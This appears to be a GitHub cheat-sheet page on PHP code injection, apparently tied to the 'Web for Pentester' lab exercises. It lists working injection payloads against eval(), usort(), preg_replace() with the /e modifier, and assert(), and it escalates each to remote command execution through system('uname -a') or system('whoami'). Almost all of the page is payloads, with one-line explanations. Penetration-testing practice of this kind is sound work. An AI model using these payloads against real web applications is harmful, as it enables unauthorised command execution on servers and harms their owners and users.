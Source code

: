 ## Code Injection
Code Injection is the general term for attack types which consist of injecting code that is then interpreted/executed by the application. This type of attack exploits poor handling of untrusted data. These types of attacks are usually made possible due to a lack of proper input/output data validation

### Web for Penterster
### example 1
<b>eval()</b> - evaluates a string as PHP code <br>
**payload**- " .phpinfo(). "  <br>
**payload**- " . hacker".system('uname -a');#       - change to RCE  & url encode need 


### example 2
<b>usort()</b>- Sort an array by values using a user-defined comparison function<br>
**payload**-example2.php?order=id,system('whoami') <br>
**payload**- example2.php?order=id);}system('whoami');#      - change to RCE  & url encode need 


### example 3
> preg_replace() — Perform a regular expression search and replace
**payload** - example3.php?new=phpinfo()&pattern=/lamer/e&base=Hello lamer"  <br>
**payload** - example3.php?new=system('uname -a')&pattern=/lamer/e&base=Hello lamer         - change to RCE


### example 4
<b>assert()</b> - Checks if assertion is FALSE <br>
**payload** - example4.php?name=hacker'.phpinfo().' <br>
**payload** - example4.php?name=hacker'.system('uname -a').'
